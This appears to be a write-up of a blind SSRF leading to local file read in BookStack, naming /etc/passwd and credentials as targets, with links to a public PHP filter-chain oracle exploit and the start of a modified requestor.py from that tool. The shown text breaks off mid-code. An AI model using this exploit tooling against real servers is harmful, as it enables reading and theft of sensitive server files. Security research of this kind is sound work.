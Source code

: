 ### **Key Points**:

1. **Vulnerability**:
    - A blind SSRF in BookStack allows attackers to make internal requests to the server.
    - By exploiting this, an attacker can read local files (LFR) by tricking the server into fetching them.
2. **Exploitation**:
    - The attacker uses a crafted payload to force the server to read local files (e.g., `/etc/passwd`).
    - The SSRF is blind, meaning the attacker doesn't directly see the response but can infer the file content through indirect means (e.g., timing or error-based techniques).
3. **Impact**:
    - Sensitive files on the server can be leaked, such as configuration files, environment variables, or credentials.
    - This can lead to further exploitation, such as privilege escalation or remote code execution.
4. **Fix**:
    - The issue was reported and patched by the BookStack team. Users are advised to update to the latest version to mitigate the risk.

### **Conclusion**:

The article highlights the dangers of SSRF vulnerabilities and how they can be chained with LFR to compromise a server. It underscores the importance of proper input validation and secure coding practices to prevent such attacks.

To learn more about this exploit Check this link 

[LFR via SSRF in BookStack | Blog | Fluid Attacks](https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack/)

[https://github.com/synacktiv/php_filter_chains_oracle_exploit.git](https://github.com/synacktiv/php_filter_chains_oracle_exploit.git)

Path where you have to change that requestor.py

```bash
php_filter_chains_oracle_exploit/filters_chain_oracle/core/requestor.py
```

`requestor.py`

```bash
import json
import requests
import time
import base64  # Ensure base64 module is imported
from filters_chain_oracle.core.verb import Verb
from filters_chain_oracle.core.utils import merge_dicts
import re

"""
Class Requestor, defines all the request logic.
"""
class Requestor:
    def __init__(self, file_to_leak, target, parameter, data="{}", headers="{}", verb=Verb.POST, in_chain="", proxy=None, time_based_attack=False, delay=0.0, json_input=False, match=False):
        self.file_to_leak = file_to_leak
        self.target = target
        self.parameter = parameter
        self.headers = headers
        self.verb = verb
        self.json_input = json_input
        self.match = match
        print("[*] The following URL is targeted : {}".format(self.target))
        print("[*] The following local file is leaked : {}".format(self.file_to_leak))
        print("[*] Running {} requests".format(self.verb.name))
        if data != "{}":
```
